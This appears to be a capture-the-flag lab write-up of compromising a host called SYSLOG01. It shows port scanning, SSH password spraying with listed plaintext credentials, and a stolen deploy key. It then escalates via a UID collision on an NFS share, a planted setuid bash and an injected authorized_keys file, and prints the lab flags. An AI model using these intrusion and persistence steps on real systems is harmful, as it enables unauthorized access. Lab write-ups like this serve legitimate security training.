



As usual I will start by erforming a full scan of the TCP services open on this site:

```bash
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:50:60:e9:e2:aa:24:c3:1c:64:f8:3e:f5:27:c3:3a (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPugCHFBj+Mi5tFUWQ5DaLKRs2ttfFZMF1gji+ahfJw8XS2PBMrYI78WqtOZeSlBeOjaHOrd5an225tWVaa3kc=
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34686/udp6  mountd
|   100005  1,2,3      44445/tcp6  mountd
|   100005  1,2,3      49959/tcp   mountd
|   100005  1,2,3      56842/udp   mountd
|   100021  1,3,4      41031/tcp6  nlockmgr
|   100021  1,3,4      41664/udp   nlockmgr
|   100021  1,3,4      45551/tcp   nlockmgr
|   100021  1,3,4      56040/udp6  nlockmgr
|   100024  1          35385/udp6  status
|   100024  1          36725/tcp6  status
|   100024  1          38933/udp   status
|   100024  1          39461/tcp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
39461/tcp open  status   syn-ack ttl 64 1 (RPC #100024)
45551/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
54545/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/16%OT=22%CT=%CU=%PV=Y%G=N%TM=69E09B33%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=10A%GCD=1%ISR=10C%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 40.206 days (since Sat Mar  7 04:20:45 2026)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   13.92 ms 172.16.2.4

```

# NFS

Seems like the NFS is sharing a file over the default TCP/2049 port and I star to think this might be the SYSLOG01 server?

```bash
└─$ showmount -e 172.16.2.4                                                                               
Export list for 172.16.2.4:
/var/log/remote 172.16.2.3

```

Now seems like there is not possibility to mount the folder unfortunately:

```bash
 sudo mount -t nfs -o nfsvers=3,nolock 172.16.2.4:/var/log/remote ./remote
mount.nfs: access denied by server while mounting 172.16.2.4:/var/log/remote

```

# SSH

Here seems 2 of my current users can login to this server which is worth of checking:

```bash
 netexec ssh 172.16.2.4 -u users_linux.txt -p passwords_linux.txt --no-bruteforce --continue-on-success
SSH         172.16.2.4      22     172.16.2.4       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.11
SSH         172.16.2.4      22     172.16.2.4       [-] api:apiSecretPw
SSH         172.16.2.4      22     172.16.2.4       [-] katja:Boneyard87!
SSH         172.16.2.4      22     172.16.2.4       [+] gizmo:JunktownKing!  Linux - Shell access!
SSH         172.16.2.4      22     172.16.2.4       [-] izo:NukaCola2077!
SSH         172.16.2.4      22     172.16.2.4       [-] wanderer:SynthLivesMatter
SSH         172.16.2.4      22     172.16.2.4       [+] benny:BootRiders4Life!  Linux - Shell access!
SSH         172.16.2.4      22     172.16.2.4       [-] ghoul:Vaultboy4Prez!
SSH         172.16.2.4      22     172.16.2.4       [-] house:Lucky38

```

And these are the users on this server:

```bash
gizmo@syslog01:/home$ ll
total 24
drwxr-xr-x  6 root    root   4096 Mar  8  2025 ./
drwxr-xr-x 18 root    root   4096 Mar 17  2025 ../
drwxr-x---  3 benny   benny  4096 Apr 16 08:20 benny/
drwxr-x---  3 deploy  deploy 4096 Mar 19  2025 deploy/
drwxr-x---  3 gizmo   gizmo  4096 Apr 16 08:19 gizmo/
drwxr-x---  2 preston sudo   4096 Mar 19  2025 preston/
gizmo@syslog01:/home$ 

```

But the flag can be obtained from the deploy user on the server(this private key was obtained from the FTS01 server via the deploy user):

```bash
ssh -i deploy_fts01.key deploy@172.16.2.4   
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-134-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

deploy@syslog01:~$ ll
total 32
drwxr-x--- 4 deploy deploy 4096 Apr 16 08:30 ./
drwxr-xr-x 6 root   root   4096 Mar  8  2025 ../
lrwxrwxrwx 1 root   root      9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 deploy deploy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 deploy deploy 3771 Jan  6  2022 .bashrc
drwx------ 2 deploy deploy 4096 Apr 16 08:30 .cache/
lrwxrwxrwx 1 root   root      9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 deploy deploy  807 Jan  6  2022 .profile
drwx------ 2 deploy deploy 4096 Mar 17  2025 .ssh/
-r--r--r-- 1 root   root     36 Mar  8  2025 flag.txt
deploy@syslog01:~$ cat flag.txt 
HTB{752178fff558b2737aebc7fa4485df8}

```

And I see i might have started from the previous server:


And now checking that logfile I can see that file can be read only by the syslog user:

```bash
deploy@syslog01:/var/log/remote$ ll
total 1404
drwxrwxrwx  2 root   syslog    4096 Mar  8  2025 ./
drwxrwxr-x 11 root   syslog    4096 Apr 16 02:15 ../
-rw-r-----  1 syslog adm    1424146 Apr 16 08:30 127.0.0.1.log
deploy@syslog01:/var/log/remote$ cat 127.0.0.1.log 
cat: 127.0.0.1.log: Permission denied
deploy@syslog01:/var/log/remote$ 

```

But the folder is rw?  


Now seems like nothing came out of the PSPY so next  turn is Linpeas and here I see immediately I need to obtain preston since he is admin here(I feel I need to get him from the previous machine?):

```bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=1001(gizmo) gid=1001(gizmo) groups=1001(gizmo)
uid=1002(benny) gid=1002(benny) groups=1002(benny)
uid=1003(preston) gid=27(sudo) groups=27(sudo)
uid=1004(deploy) gid=1004(deploy) groups=1004(deploy)
uid=101(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
uid=102(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
uid=103(messagebus) gid=104(messagebus) groups=104(messagebus)
uid=104(systemd-timesync) gid=105(systemd-timesync) groups=105(systemd-timesync)
uid=105(pollinate) gid=1(daemon[0m) groups=1(daemon[0m)
uid=106(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(usbmux) gid=46(plugdev) groups=46(plugdev)
uid=108(syslog) gid=112(syslog) groups=112(syslog),4(adm)
uid=109(_rpc) gid=65534(nogroup) groups=65534(nogroup)
uid=110(statd) gid=65534(nogroup) groups=65534(nogroup)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=999(laurel) gid=999(laurel) groups=999(laurel)

```

but i see also that NFS limitation where only the other server can mount it, this mean I need to go back to that server.

```bash
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-e Connected NFS Mounts: 
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 426 Jun 22  2025 /etc/exports
/var/log/remote 172.16.2.3(rw,async)


```

# Road to Root

Now remember that syslog folder? Now I need to mount the NDF share since it was only possible from this machine and mount requires root rights:

```
root@admin01:/tmp# sudo mount -t nfs -o nfsvers=3,nolock 172.16.2.4:/var/log/remote ./nfs/
root@admin01:/tmp# cd nfs/
root@admin01:/tmp/nfs# ll
total 1388
drwxrwxrwx  2 root syslog    4096 Mar  8  2025 ./
drwxrwxrwt 13 root root      4096 Apr 17 12:31 ../
-rw-r-----  1 _rpc adm    1408678 Apr 17 12:32 127.0.0.1.log
root@admin01:/tmp/nfs#
```

But since I am root I can impersonate "**\_rpc**" which means I can now reach the file:





Now since House@ADMIN01(has id 1003) and Preston@SYSLOG01(has id 1003) this can be abused. So the attack is carried mostly from ADMIN01 where the NFS is mapped as root:

```
root@admin01:/tmp# mount -t nfs 172.16.2.4:/var/log/remote nfs/ -o nolock
root@admin01:/tmp# ll
total 2808
```

Next, you need to impersonate House@ADMIN01 and create the .ssh folder structure with the authorized keys:

```
house@admin01:/tmp/nfs/.ssh$ vi authorized_keys
house@admin01:/tmp/nfs/.ssh$ cd ..
house@admin01:/tmp/nfs$ ls -al
total 2764
drwxrwxrwx  3 root  syslog    4096 Apr 17 13:25 .
drwxrwxrwt 13 root  root      4096 Apr 17 13:14 ..
drwxrwxr-x  2 house house     4096 Apr 17 13:26 .ssh
-rw-r-----  1 _rpc  adm    1413749 Apr 17 13:24 127.0.0.1.log
-rwsrwxrwx  1 house house  1396520 Apr 17 12:58 bash
house@admin01:/tmp/nfs$ ls -al .ssh/authorized_keys 
-rw-rw-r-- 1 house house 740 Apr 17 13:26 .ssh/authorized_keys
house@admin01:/tmp/nfs$ cp -r .ssh/
```

Now I need also copy /bin/bash and execute on SYSLOG with -p permission to gain EID like preston:

```
deploy@syslog01:/var/log/remote$ ./bash -p
bash-5.1$ id
uid=1004(deploy) gid=1004(deploy) euid=1003(preston) groups=1004(deploy)
bash-5.1$ sudo -l
```

The last stretch involves moving the folder under Preston  home, add *700* on the .ssh folder and *600* on the authorized keys:

```
bash-5.1$ mv /var/log/remote/.ssh . 
bash-5.1$ ls -al
total 24
drwxr-x--- 3 preston sudo    4096 Apr 17 13:27 .
drwxr-xr-x 6 root    root    4096 Mar  8  2025 ..
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 preston sudo     220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 preston sudo    3771 Jan  6  2022 .bashrc
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 preston sudo     807 Jan  6  2022 .profile
drwxrwxr-x 2 preston preston 4096 Apr 17 13:26 .ssh
bash-5.1$ ls -al .ssh/authorized_keys 
-rw-rw-r-- 1 preston preston 740 Apr 17 13:26 .ssh/authorized_keys
bash-5.1$ chmod 700 .ssh/
bash-5.1$ ls -al
total 24
drwxr-x--- 3 preston sudo    4096 Apr 17 13:27 .
drwxr-xr-x 6 root    root    4096 Mar  8  2025 ..
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 preston sudo     220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 preston sudo    3771 Jan  6  2022 .bashrc
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 preston sudo     807 Jan  6  2022 .profile
drwx------ 2 preston preston 4096 Apr 17 13:26 .ssh
bash-5.1$ cd .ssh/
bash-5.1$ ls -al
total 12
drwx------ 2 preston preston 4096 Apr 17 13:26 .
drwxr-x--- 3 preston sudo    4096 Apr 17 13:27 ..
-rw-rw-r-- 1 preston preston  740 Apr 17 13:26 authorized_keys
bash-5.1$ chmod 600 authorized_keys 
bash-5.1$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDC56T+CJsldompfPq4RnGd94aC5/SDk0Oi16blt+zPzMGJpJSlKXNHc9AJGl8qagziNY8C+Y8tYnUF2YNaxsiSVSizD07tvGkgxapqRJ0x9mVVikdQJdfE9CAQCcE1RaJ7KtMsvAdc5eqRTsmX5EXicaEIAQmJ0pbiOVfe5uIGHQd7BRdT5GpHa9VQthR+EAavZhht28S4anOtsN5J27rmRDO51qiGAD6jyv1h/0lmp6Ql2QbDf6gFaUONg4nEEYy7HFTM1+fMtcNEIJe2ClOyYCAzsX8V9HzyVJQG/hqkaYYY80/FoPDeBi5Eso8Z4AISEUxNlPvaOSIxiPuZ2sQbrqPuN+gHgquKip37jxPE2HDfSmU2uMWQ8ue6Xj+Dk6ZaeabpmggO5PKfXkuAZkIXmyZm8GluMwahvCIsVJKy2+H87wLu+RCOGA3sPKN0OyXolFMSKaXaYea67445G7nzCpY2bn6vAKsjQALu5hUkh7UNxdBAO7n0b+lakHmvm25kzQ7QJe55OkWD16DHaH46uadn46OBMbHeaaukzgF/EYK8S4ji2ab8N3z4B7uD4o9XaFaYtpnzvv/5/7SwtEDSZD6Z7IHIUeYJSOOPuu1H6tys7ZAEj+wuRAJ0/BhvD+UEq/VKlWFAhKAfeOffa3KExWlbpKphVPbubzQjODLEvQ== user@kali-almi
bash-5.1$
```

And now I am simply root:

```bash
ssh preston@172.16.2.4 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-134-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

preston@syslog01:~$ sudo -l
Matching Defaults entries for preston on syslog01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User preston may run the following commands on syslog01:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
preston@syslog01:~$ sudo su
root@syslog01:/home/preston# ll
total 28
drwxr-x--- 4 preston sudo    4096 Apr 17 13:28 ./
drwxr-xr-x 6 root    root    4096 Mar  8  2025 ../
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r-- 1 preston sudo     220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 preston sudo    3771 Jan  6  2022 .bashrc
drwx------ 2 preston sudo    4096 Apr 17 13:28 .cache/
lrwxrwxrwx 1 root    root       9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 preston sudo     807 Jan  6  2022 .profile
drwx------ 2 preston preston 4096 Apr 17 13:26 .ssh/
-rw-r--r-- 1 preston sudo       0 Apr 17 13:28 .sudo_as_admin_successful
root@syslog01:/home/preston# 


```

And grab another flag:

```bash
oot@syslog01:~# ll
total 36
drwx------  5 root root 4096 Jun 22  2025 ./
drwxr-xr-x 18 root root 4096 Mar 17  2025 ../
drwx------  3 root root 4096 Mar 17  2025 .ansible/
lrwxrwxrwx  1 root root    9 Mar 19  2025 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar 17  2025 .cache/
lrwxrwxrwx  1 root root    9 Mar 19  2025 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Mar 17  2025 .ssh/
-rw-------  1 root root 1245 Jun 22  2025 .viminfo
-r--r--r--  1 root root   37 Mar  8  2025 flag.txt
root@syslog01:~# cat flag.txt 
HTB{e74b69d3093e2c84529236c50cd59135}

```